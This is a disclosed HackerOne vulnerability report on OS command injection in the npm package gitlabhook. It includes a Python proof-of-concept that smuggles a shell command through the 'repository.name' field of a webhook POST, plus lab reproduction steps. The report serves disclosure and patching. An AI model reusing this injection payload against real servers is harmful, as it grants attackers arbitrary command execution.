 # gitlabhook OS Command Injection

## Report Details
- **Report ID**: 685447
- **URL**: https://hackerone.com/reports/685447
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-08-31T09:18:46.360Z
- **Disclosed**: 2019-09-13T10:37:00.269Z

## Reporter
- **Username**: samlyhin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report OS Command Injection in gitlabhook.
It allows execution of arbitrary code on the remote server, that waits for instructions from gitlab.

# Module

**module name:** gitlabhook 
**version:** 0.0.17
**npm page:** `https://www.npmjs.com/package/gitlabhook`

## Module Description

This is an easy to use nodeJS based web hook for GitLab.

## Module Stats

[5] downloads in the last week

# Vulnerability

## Vulnerability Description

Function "ExecFile" at line 146 executes commands without any sanitization. User input gets passed directly to this command. 

## Steps To Reproduce:

An exploit on python3 was created. 

```
#!/usr/bin/python

import requests

target = "http://192.168.126.128:3420"
cmd = r"touch /tmp/poc.txt"
json = '{"repository":{"name": "Diasporrra\'; %s;\'"}}'% cmd
r = requests.post(target, json)

print "Done."
```

Please follow these steps:
1.   Create a temporary directory on the filesystem. mkdir /tmp/temp cd /tmp/temp
2.   Install the module: npm install gitlabhook
3.    Change directory: cd node_modules/gitlabhook/
4.    Run the application: node gitlabhook-server.js

At step 4, you should see that the server is up and running. It should send a big message to the terminal, and this message should finish with the line:

```
listening for github events on 0.0.0.0:3420
```

This server was set up on Kali Linux machine. This machine has an interface with IP address 192.168.126.128.

I have another machine on Windows, that can reach this Kali Linux machine by the above IP. This Windows machine has python3 installed, and python requests module installed too.

So, edit the exploit and run it.

```
#!/usr/bin/python

import requests

target = "http://192.168.126.128:3420" #put target IP and port here
cmd = r"touch /tmp/poc.txt" #a command to execute
json = '{"repository":{"name": "Diasporrra\'; %s;\'"}}'% cmd
r = requests.post(target, json)

print ("Done.")
```

The exploit above should create a file /tmp/poc.txt on the victim server.

So, on the Kali machine, run the next command:

```
ls /tmp/poc.txt
```

And ensure that the file was created.

Also it's possible to check this vulnerability without usage of additional windows machine. The above exploit may be run on Kali Linux machine:

exploit.py:

```
#!/bin/python3

import requests

target = "http://127.0.0.1:3420" #put target IP and port here
cmd = r"touch /tmp/poc.txt" #a command to execute
json = '{"repository":{"name": "Diasporrra\'; %s;\'"}}'% cmd
r = requests.post(target, json)

print ("Done.")
```
run it:

```
chmod 755 exploit.py
pip3 install requests
python3 exploit.py
```

and check the result with the following command:
```
ls /tmp/poc.txt 
```

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

An attacker can achieve Remote Code Execution (RCE) without any conditions.

## Attachments
No attachments
